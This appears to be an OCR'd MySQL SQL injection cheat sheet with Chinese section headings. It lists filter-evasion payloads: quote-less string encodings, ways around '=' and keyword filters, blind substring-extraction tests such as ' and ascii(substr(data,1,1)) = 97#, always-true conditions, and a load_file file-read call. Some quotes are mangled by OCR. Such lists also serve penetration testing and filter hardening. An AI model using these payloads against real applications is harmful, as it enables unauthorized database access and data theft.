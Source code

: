 	SELECT “a”
	SELECT n’a’
	SELECT b’1100001′
	SELECT _binary’1100001′
	SELECT x’61′
	#没有引号的字符串
	‘abc’ = 0×616263
	' and substr(data,1,1) = 'a'#
	' and substr(data,1,1) = 0x61 # 0x6162
	' and substr(data,1,1) = unhex(61) # unhex(6162)
	' and substr(data,1,1) = char(97 )# char(97,98)
	' and substr(data,1,1) = 'a'#
	' and hex(substr(data,1,1)) = 61#
	' and ascii(substr(data,1,1)) = 97#
	' and ord(substr(data,1,1)) = 97#
	' and substr(data,1,1) = lower(conv(10,10,36))# 'a'
	#别名
	select pass as alias from users
	select pass`alias alias`from users
	#字型
	‘ or true = ’1 # or 1=1
	‘ or round(pi(),1)+true+true = version() # or 3.1+1+1 = 5.1
	‘ or ’1 # or true
	#操作符字型
	select * from users where ‘a’='b’='c’
	select * from users where (‘a’='b’)=’c’
	select * from users where (false)=’c’
	#认真绕过‘=’
	select * from users where name = ”=”
	select * from users where false = ”
	select * from users where 0 = 0
	select * from users where true#函数过滤器ascii (97)
	load_file/*foo*/(0×616263)
	#用函数构建字符串
	‘abc’ = unhex(616263)
	‘abc’ = char(97,98,99)
	hex(‘a’) = 61
	ascii(‘a’) = 97
	ord(‘a’) = 97
	‘ABC’ = concat(conv(10,10,36),conv(11,10,36),conv(12,10,36))
	#特殊字符
	aes_encrypt(1,12) // 4鏷眥"^z譎é蒃a
	des_encrypt(1,2) // 侴Ò/镏k
	@@ft_boolean_syntax // + -><()~*:""&|
	@@date_format // %Y-%m-%d
	@@innodb_log_group_home_dir // .\
	@@new: 0
	@@log_bin: 1
	#提取子字符串substr(‘abc’,1,1) = ‘a’
	substr(‘abc’ from 1 for 1) = ‘a’
	substring(‘abc’,1,1) = ‘a’
	substring(‘abc’ from 1 for 1) = ‘a’
	mid(‘abc’,1,1) = ‘a’
	mid(‘abc’ from 1 for 1) = ‘a’
	lpad(‘abc’,1,space(1)) = ‘a’
	rpad(‘abc’,1,space(1)) = ‘a’
	left(‘abc’,1) = ‘a’
	reverse(right(reverse(‘abc’),1)) = ‘a’
	insert(insert(‘abc’,1,0,space(0)),2,222,space(0)) = ‘a’
	space(0) = trim(version()from(version()))
	#搜索子字符串
	locate(‘a’,'abc’)
	position(‘a’,'abc’)
	position(‘a’ IN ‘abc’)